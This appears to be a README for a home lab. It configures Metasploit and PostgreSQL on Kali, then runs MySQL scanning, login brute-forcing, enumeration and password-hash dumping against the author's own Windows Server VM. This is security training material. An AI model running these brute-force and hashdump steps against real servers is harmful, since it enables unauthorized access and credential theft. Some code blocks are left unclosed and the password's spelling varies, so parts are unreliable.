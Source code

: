 # Section 1: 

## In Kali VM: 

- Start PostgreSQL:
  ```bash
  sudo /etc/init.d/postgresql start
  ```
  - Reinstall PostgreSQL if necessary (due to missing database.yml in the directory /usr/share/metasploit-framework/config/database.yml):
    ```bash
    sudo apt install postgresql postgresql
    ```
  - Enable and restart PostgreSQL:
    ```bash
    sudo systemctl enable postgresql
    sudo systemctl restart postgresql
    ```
  - Verify PostgreSQL status:
    ```bash
    sudo systemctl status postgresql
    ```
  - Switch to postgres user and access PostgreSQL:
    ```bash
    sudo su - postgres
    psql -p 5433
    \du   # Check if 'postgres' user exists and is a superuser
    alter user postgres with password 'admin@123';
    \l   # Check for a database named 'postgres'
    
- Start Metasploit
   ```bash
    /etc/init.d/metasploit start # (old method, won't work)
    ```
  - Instead, install Metasploit Framework:
    ```bash
    sudo apt install metasploit-framework
    ```
  -  if **sudo systemctl start metasploit** work do not do the following comands else do this:
      - Verify Metasploit paths:
        ```bash
        which msfconsole
        locate metasploit-framework
        ```
     - Adjust Metasploit service configuration if paths differ:
       ```bash
       sudo nano /etc/systemd/system/metasploit.service
       ```
      <pre>
      [Unit]
      Description=Metasploit Framework
      After=network.target
      [Service]
      Type=simple
      ExecStart=/usr/local/bin/msfconsole
      User=root
      WorkingDirectory=/usr/local/share/metasploit-framework
      [Install]
      WantedBy=multi-user.target
      </pre>
  - Now start and check the status of metasploit
    ```bash
    sudo systemctl start metasploit
    sudo systemctl status metasploit
    ```
  - Start Metasploit console and wait for initialization:
    ```bash
    msfconsole
    ```
  - Within the metasploit console run the following:
      - Check database connection status:
        ```bash
        db_status
        ```
      - If not connected, configure database connection:
        ```bash
        db_connect –y /usr/share/metasploit-framework/config/database.yml
        ```
      - If you encounter this error in PostgreSQL configuration:
        ![Local Example](./images/SQL_Injection/cap1.JPG)
         - Do the following :
           ```bash
           sudo nano /etc/postgresql/14/main/postgresql.conf
           ```
            - Uncomment this line :
               ```bash
              # listen_addresses = 'localhost'
               ```
            - Adjust those lines to look like this :
              ```bash
              log_timezone = 'UTC'
              TimeZone = 'UTC'
              ```
            - Also go to this file
              ```bash
              sudo nano /etc/postgresql/14/main/pg_hba.conf
              ```
           - Ensure these lines exist:
             ```bash
             local   all     postgres                           peer
             
             local   all     all                                peer
             host    all     all           127.0.0.1/32         md5
             ```
           - Restart PostgreSQL:
             ```bash
             sudo systemctl restart postgresql
             ```
           - if there are any other errors try :
             ```bash
             sudo tail -n 50 /var/log/postgresql/postgresql-14-main.log
             ```
      - Update Metasploit database configuration:
        ```bash
        sudo nano /usr/share/metasploit-framework/config/database.yml
        ```
        - Example my configuration:
        <pre>
        development:
          adapter: postgresql
          database: msf6
          username: msf6
          password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
          host: localhost
          port: 5432
          pool: 5
          timeout: 5
        production:
          adapter: postgresql
          database: msf6
          username: msf6
          password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
          host: localhost
          port: 5432
          pool: 5
          timeout: 5
         </pre>
         
      - Create PostgreSQL database and user for Metasploit:
        ```bash
        sudo su - postgres
        psql -p 5433
        CREATE DATABASE msf6;
        CREATE USER msf6 WITH PASSWORD 'RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=';
        GRANT ALL PRIVILEGES ON DATABASE msf6 TO msf6;
        ```
     - Restart PostgreSQL and Metasploit:
       ```bash
       sudo systemctl restart postgresql
       sudo systemctl restart metasploit
     - Reconnect to Metasploit console and continue:
       ```bash
       msfconsole
       db_connect –y /usr/share/metasploit-framework/config/database.yml
       ```
       ![Local Example](./images/SQL_Injection/cap2.JPG)
       
## In Windows Server VM (MySQL Server)
     
Example commands inside Metasploit console:

- Install MySQL server on Windows Server
- Open terminal and connect to MySQL:
  ```bash
  mysql -u root -p
  ```
- Set up MySQL users and permissions: (192.168.43.93 : is the ip @ of my kali VM , and 'mounaMYSQL19' is my SQL server password)
  ```bash
  CREATE USER 'root'@'192.168.43.93' IDENTIFIED BY 'mounaMYSQL19';  
  GRANT ALL PRIVILEGES ON *.* TO 'root'@'192.168.43.93';
  FLUSH PRIVILEGES;

## In Kali VM
  
- inside msf console, execute Metasploit commands: ( 192.168.43.189 is the ip @ of my MYSQL server VM)
- 1- 
  ```bash
  use auxiliary/scanner/mysql/mysql_version
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  run
  ```
  ![Local Example](./images/SQL_Injection/cap3.JPG)
- 2-
  ```bash
  use auxiliary/scanner/mysql/mysql_login
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASS_FILE /mouna19/passwords.txt
  run
  ```
- this file contains potential passwords
  ![Local Example](./images/SQL_Injection/cap4.JPG)
  ![Local Example](./images/SQL_Injection/cap5.JPG)
- 3-
  ```bash
  use auxiliary/admin/mysql/mysql_enum
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASSWORD mounaMYSQL19
  run
  ```
  ![Local Example](./images/SQL_Injection/cap6.JPG)
- 4-
  ```bash
  use auxiliary/scanner/mysql/mysql_hashdump
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASSWORD mounaMYSQL19
  run
  ```
  ![Local Example](./images/SQL_Injection/cap7.JPG)
- Open another terminal window in Kali for MySQL console access:
  ```bash
  mysql -u root -p -h 192.168.43.189
- Enter the password (e.g., mounamySQL19) to access MySQL console.
  ![Local Example](./images/SQL_Injection/cap8.JPG)
  ![Local Example](./images/SQL_Injection/cap9.JPG)
